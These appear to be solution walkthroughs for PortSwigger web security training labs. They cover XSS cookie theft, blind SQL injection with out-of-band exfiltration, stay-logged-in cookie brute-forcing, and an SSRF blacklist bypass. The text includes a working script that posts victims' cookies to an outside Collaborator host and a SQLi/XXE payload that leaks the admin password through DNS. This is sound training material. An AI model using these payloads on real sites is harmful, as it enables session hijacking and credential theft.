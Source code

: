 ### Lab: Exploiting cross-site scripting to steal cookies

1.  Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
2.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3.  Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:  
    `<script>  
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {  
    method: 'POST',  
    mode: 'no-cors',  
    body:document.cookie  
    });  
    </script>`  
    This script will make anyone who views the comment issue a POST request to `burpcollaborator.net` containing their cookie.
4.  Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5.  Take a note of the value of the victim's cookie in the POST body.
6.  Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

### Lab: Blind SQL injection with out-of-band data exfiltration

1.  Visit the front page of the shop, and use [Burp Suite Professional](https://portswigger.net/burp/pro) to intercept and modify the request containing the `TrackingId` cookie.
2.  Go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
3.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4.  Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`.
5.  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
6.  You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
7.  In your browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.



### Lab: Brute-forcing a stay-logged-in cookie

1.  With Burp running, log in to your own account with the "Stay logged in" option selected. Notice that this sets a `stay-logged-in` cookie.
2.  Examine this cookie in the [Inspector](https://portswigger.net/burp/documentation/desktop/functions/message-editor/inspector) panel and notice that it is Base64-encoded. Its decoded value is `wiener:51dc30ddc473d43a6011e9ebba6ca770`. Study the length and character set of this string and notice that it could be an MD5 hash. Given that the plaintext is your username, you can make an educated guess that this may be a hash of your password. Hash your password using MD5 to confirm that this is the case. We now know that the cookie is constructed as follows:  
    `base64(username+':'+md5HashOfPassword)`
3.  Log out of your account.
4.  Send the most recent `GET /my-account` request to Burp Intruder.
5.  In Burp Intruder, add a payload position to the `stay-logged-in` cookie and add your own password as a single payload.
6.  Under "Payload processing", add the following rules in order. These rules will be applied sequentially to each payload before the request is submitted.
    -   Hash: `MD5`
    -   Add prefix: `wiener:`
    -   Encode: `Base64-encode`
7.  As the "Update email" button is only displayed when you access the `/my-account` page in an authenticated state, we can use the presence or absence of this button to determine whether we've successfully brute-forced the cookie. On the "Options" tab, add a grep match rule to flag any responses containing the string `Update email`. Start the attack.
8.  Notice that the generated payload was used to successfully load your own account page. This confirms that the payload processing rules work as expected and you were able to construct a valid cookie for your own account.
9.  Make the following adjustments and then repeat this attack:
    -   Remove your own password from the payload list and add the list of [candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) instead.
    -   Change the "Add prefix" rule to add `carlos:` instead of `wiener:`.
10.  When the attack is finished, the lab will be solved. Notice that only one request returned a response containing `Update email`. The payload from this request is the valid `stay-logged-in` cookie for Carlos's account.

### Lab: SSRF with blacklist-based input filter

1.  Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
2.  Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
3.  Bypass the block by changing the URL to: `http://127.1/`
4.  Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
5.  Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.

